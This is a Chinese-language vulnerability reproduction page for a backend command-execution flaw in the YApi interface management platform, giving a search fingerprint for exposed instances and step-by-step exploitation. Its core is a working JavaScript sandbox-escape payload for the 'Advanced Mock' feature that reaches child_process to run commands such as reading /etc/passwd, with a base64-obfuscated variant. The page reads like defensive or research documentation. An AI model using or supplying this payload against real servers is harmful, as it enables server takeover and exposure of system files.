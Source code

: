# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>YApi 接口管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="YApi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101756201.png)



首先需要注册账户并登录



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101755024.png)



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754805.png)



添加项目，参数任意, 创建后点击 高级Mock 输入如下Payload

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()

const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const base64Str = "Y29uc3QgciA9IHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMoImhhaGhhaGFoYWhhaGEiKTtyZXR1cm4gcjsK"
const bufferer = FunctionConstructor("haha = new Buffer('" + base64Str + "', 'base64');return haha");
const haha = new bufferer();
const c = haha.toString()
const daima = c.replace("hahhahahahaha","whoami")//这里写命令
const daima_jiazai = FunctionConstructor(daima);
const jieguo = daima_jiazai()
mockJson = jieguo.toString();
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754860.png)



预览处点击项目链接

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101754769.png)